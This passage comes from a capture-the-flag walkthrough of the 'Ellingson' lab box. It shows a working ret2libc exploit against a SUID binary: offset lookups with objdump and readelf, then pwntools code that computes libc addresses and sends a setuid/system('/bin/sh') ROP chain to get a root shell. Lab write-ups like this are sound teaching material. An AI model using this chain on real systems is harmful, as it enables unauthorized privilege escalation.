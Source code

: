 ```bash
┌─[rin@parrot]─[~/boxes/Ellingson]
└──╼ $objdump -D garbage | grep main
# 403ff0 <__libc_start_main@GLIBC_2.2.5>
401194: ff 15 56 2e 00 00 callq *0x2e56(%rip) 
0000000000401619 <main>:
401644: 0f 84 e6 00 00 00 je 401730 <main+0x117>
```

We can add the address of main to the payload. In stage 2 of the exploit, we are going to overflow the buffer and use the leaked address to calculate the full address of the system function and the location of the string "/bin/sh" which is in libc. We also need another function, setuid to make sure that when the shell is run by system, it is run as root's user id which is 0. Using readelf to get the offsets of the functions in libc:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Ellingson]
└──╼ $readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep -E 'system|setuid|puts'
25: 00000000000cc0c0 144 FUNC WEAK DEFAULT 14 setuid@@GLIBC_2.2.5
430: 0000000000076550 472 FUNC WEAK DEFAULT 14 puts@@GLIBC_2.2.5
1430: 0000000000048db0 45 FUNC WEAK DEFAULT 14 system@@GLIBC_2.2.5
```

We can now calculate the base address of libc

```python
libc_puts = p64(0x76550)
libc_system = p64(0x48db0)
libc_setuid = p64(0xcc0c0)
libc_binsh = p64(0x18a156)
libc_base = u64(leaked_put) - u64(libc_puts)
log.info(f"libc base: 0x{libc_base.to_bytes(8, byteorder='big')[2:].hex()}")
system_loc = (u64(libc_system) + libc_base).to_bytes(8, byteorder='little')
setuid_loc = (u64(libc_setuid) + libc_base).to_bytes(8, byteorder='little')
binsh_loc = (u64(libc_binsh) + libc_base).to_bytes(8, byteorder='little')
log.info(f"System: 0x{(u64(libc_system) + libc_base).to_bytes(8," \
    "byteorder='big')[2:].hex()}")
log.info(f"Setuid: 0x{(u64(libc_setuid) + libc_base).to_bytes(8, "\
    "byteorder='big')[2:].hex()}")
log.info(f"/bin/sh: 0x{(u64(libc_binsh) + libc_base).to_bytes(8, "\
    "byteorder='big')[2:].hex()}")
gadget_setuid = pop_rdi + p64(0) + setuid_loc
gadget_system = pop_rdi + binsh_loc + system_loc
p.sendline(junk + gadget_setuid + gadget_system)
p.interactive()
```

The offsets of the functions puts, system and setuid and the string "/bin/sh" are added to the program . The base address of libc is then calculated as the difference between the leaked address of puts and its offset in libc . The actual addresses of system, setuid and "/bin/sh" can then be calculated . Finally, the ROP chain is constructed and sent to the program as input for the prompted password.

The result is a shell as root
